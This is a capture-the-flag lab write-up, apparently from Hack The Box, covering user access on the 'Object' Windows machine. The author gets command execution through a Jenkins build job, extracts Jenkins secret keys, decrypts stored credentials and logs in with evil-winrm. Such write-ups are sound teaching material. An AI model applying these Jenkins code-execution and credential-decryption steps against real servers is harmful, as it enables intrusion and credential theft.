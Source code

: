 # object

Unfortunately, I did not finish root, I only got user :(

10.129.229.205

nmap/rustscan:

	PORT     STATE SERVICE REASON  VERSION
	80/tcp   open  http    syn-ack Microsoft IIS httpd 10.0
	5985/tcp open  http    syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	8080/tcp open  http    syn-ack Jetty 9.4.43.v20210629
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

8080 is Jenkins

port 80: website
email: ideas@object.htb

port 5985 is winrm (so I can login if I get user creds/hash)

## User

Jenkins: http://10.129.229.205:8080/

can create an account, then I should be able to pop a shell on the server by running a jenkins job

add job, and configure remote trigger build in build triggers
http://10.129.229.205:8080/job/testjob/build?token=token123

use "batch command" as a build step to execute code: e.g
```
whoami /all
```

http://10.129.229.205:8080/job/testjob/lastBuild

that worked (check console output):
http://10.129.229.205:8080/job/testjob/1/console

```
Started by remote host 10.10.14.17
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\testjob
[testjob] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins3244147168395895210.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\testjob>whoami /all 

USER INFORMATION
----------------

User Name     SID                                           
============= ==============================================
object\oliver S-1-5-21-4088429403-1159899800-2753317549-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

things to dir and cat
dir /S C:\Users\oliver
type C:\Users\oliver\Desktop\user.txt



http://10.129.229.205:8080/job/testjob/2/consoleFull

	 Directory of C:\Users\oliver

	11/10/2021  03:20 AM    <DIR>          .
	11/10/2021  03:20 AM    <DIR>          ..
	10/20/2021  09:13 PM    <DIR>          .groovy
	10/20/2021  08:56 PM    <DIR>          3D Objects
	10/20/2021  08:56 PM    <DIR>          Contacts
	10/22/2021  02:41 AM    <DIR>          Desktop
	10/20/2021  08:56 PM    <DIR>          Documents
	10/20/2021  08:56 PM    <DIR>          Downloads
	10/20/2021  08:56 PM    <DIR>          Favorites
	10/20/2021  08:56 PM    <DIR>          Links
	10/20/2021  08:56 PM    <DIR>          Music
	10/20/2021  08:56 PM    <DIR>          Pictures
	10/20/2021  08:56 PM    <DIR>          Saved Games
	10/20/2021  08:56 PM    <DIR>          Searches
	10/20/2021  08:56 PM    <DIR>          Videos
				   0 File(s)              0 bytes
	 Directory of C:\Users\oliver\Desktop

	10/22/2021  02:41 AM    <DIR>          .
	10/22/2021  02:41 AM    <DIR>          ..
	10/22/2021  02:41 AM                58 user.txt
				   1 File(s)             58 bytes

task list shows there's probably no AV (no MsMpEng.exe)

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\testjob>type C:\Users\oliver\Desktop\user.txt 
HTB{c1_cd_c00k3d_up_1337!}

```

can't make a reverse shell because system can't connect back to me. So I will need to put a webshell instead

```

 Directory of C:\inetpub\wwwroot

10/25/2021  03:36 AM    <DIR>          .
10/25/2021  03:36 AM    <DIR>          ..
10/25/2021  10:21 PM            29,932 index.html
               1 File(s)         29,932 bytes
```

have confirmed that is the webroot by  using curl
```
curl http://10.129.229.205/|wc -c
29932
```

access denied to the webroot..

so I will need to get credentials of oliver somehow and then access via remote management (winrm)

jenkins config in C:\Users\oliver\AppData\Local\Jenkins\.jenkins

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\testjob>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml 
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
```

decrypting the credentials in the jenkins  script console:
http://10.129.229.205:8080/script
https://www.shellhacks.com/jenkins-credentials-plugin-decrypt-password/

we need to extract C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets master.key and hudson.util.Secret

```
type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key  
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19

certutil -encode C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret.txt 
Input Length = 272
Output Length = 432
CertUtil: -encode command completed successfully.

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\testjob>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret.txt 
-----BEGIN CERTIFICATE-----
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu
2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHO
kX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2L
AORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9
GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzc
pBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
-----END CERTIFICATE-----

```

take the hudson.util.Secret.txt , get rid of new lines and decode it via base64 back to 272 bytes

admin_config_snip.xml:
```
 <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
           
```
		   

https://gist.github.com/thesubtlety/e7d26891227f0b68b9d5db1ea9870c62
```
decrypt_jenkins_2.rb ./master.key ./hudson.util.Secret ./admin_config_snip.xml 
oliver:c1cdfun_d2434
```

we have creds!

oliver:c1cdfun_d2434

`evil-winrm -i 10.129.229.205 -u oliver -p c1cdfun_d2434`